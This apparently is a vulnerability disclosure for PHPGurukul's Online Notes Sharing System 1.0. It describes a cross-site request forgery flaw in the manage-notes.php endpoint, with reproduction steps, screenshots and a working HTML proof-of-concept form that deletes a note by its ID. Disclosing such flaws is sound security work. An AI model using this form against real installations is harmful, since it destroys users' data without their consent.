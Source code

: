 ## Online Notes Sharing System V1.0


**Bug Description:**

A Cross Site Request Forgery (CSRF) vulnerability in "/user/manage-notes.php" endpoint of Online Notes Sharing System 1.0  allows attackers to "Delete" Notes via a crafted html request.

**Steps to Reproduce:** 

```
# Exploit Title: Cross Site Request Forgery (CSRF) vulnerability in PHPGurukul Online Notes Sharing System
# Date: 20-12-2023
# Exploit Author: dhabaleshwardas
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/online-notes-sharing-system-using-php-and-mysql/
# Version: 1.0
# Tested on: firefox/chrome/brave
# CVE : 
```


To reproduce the attack:

1- Head to the http://localhost/onss/user/manage-notes.php endpoint after logging into the admin account. 

<img width="958" alt="1" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/69cb7bc1-90b3-41c3-9c48-c3a0f0c39acb">



2- Here you can see that we want to delete the 3rd subject "adsadas". So we wrote an HTML code to delete it.

<img width="391" alt="2" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/e22cb84c-ffd0-4998-96b9-ba9584e231f3">




```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/onss/user/manage-notes.php">
      <input type="hidden" name="delid" value="11" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```


3- We'll then execute this HTML code and we successfully see that the Data has been deleted successfully.

<img width="722" alt="3" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/7f1aea39-2203-4aaf-8b34-77bc63e0b11b">
